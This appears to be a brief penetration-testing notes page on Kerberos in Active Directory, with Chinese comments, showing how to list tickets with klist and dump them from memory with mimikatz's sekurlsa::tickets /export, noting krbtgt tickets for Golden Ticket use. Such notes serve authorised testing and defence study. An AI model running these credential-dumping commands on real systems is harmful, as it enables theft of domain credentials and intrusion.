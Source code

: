Kerberos
===
🔙 [MENU README](./AD.md#penetration)


![](./kerbors.png)

# Export Kerberos Tickets
Environment
```bash
# 2019 DC 

klist  
# TGT
# 1. 第一張一定是TGT
# 2. Server : krbtgt (由krbtgt這個帳號簽出來的)

# TGST
# 1. Host  : TGST
```
mimikatz
```bash
# https://github.com/gentilkiwi/mimikatz/releases
mimikatz

privilege::debug

sekurlsa::tickets /export
```
```
@之前的是帳號
krbtgt的是GoldenTicket
```
